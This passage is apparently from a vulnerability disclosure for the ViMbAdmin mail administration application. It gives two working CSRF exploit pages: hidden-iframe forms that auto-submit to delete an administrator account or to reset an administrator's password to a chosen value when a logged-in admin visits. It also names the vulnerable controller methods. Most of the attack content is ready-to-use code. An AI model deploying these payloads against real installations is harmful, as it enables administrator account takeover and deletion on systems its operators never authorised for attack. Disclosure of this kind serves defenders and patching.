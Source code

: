 #### Vulnerable code

The vulnerable code is located in the `addAction()` method of the `<vimbadmin directory>/application/controllers/DomainController.php` file.

### Remove administrator user

#### Exploit

The following html/javascript code allows to delete an administrator user. It needs to be visited by a logged administrator of the targeted ViMbAdmin application.

```html
<head>
<title>CSRF ViMbAdmin</title>
</head>
<body>


<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://<target ip>/admin/purge/aid/<administrator id>" method="GET" target="csrf-frame" >
</form>


<script>document.getElementById("csrf-form").submit()</script>

</body>
```

#### Vulnerable code

The vulnerable code is located in the `purgeAction()` method of the `<vimbadmin directory>/application/controllers/DomainController.php` file.

### Change administrator password

#### Exploit

The following html/javascript code allows to update administrator password. It needs to be visited by a logged administrator of the targeted ViMbAdmin application.

```html
<head>
<title>CSRF ViMbAdmin</title>
</head>
<body>


<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://<target ip>/admin/password/aid/<administrator id>" method="POST" target="csrf-frame" >
<input type="text" name="password" value="newpassword" >
</form>


<script>document.getElementById("csrf-form").submit()</script>

</body>
```
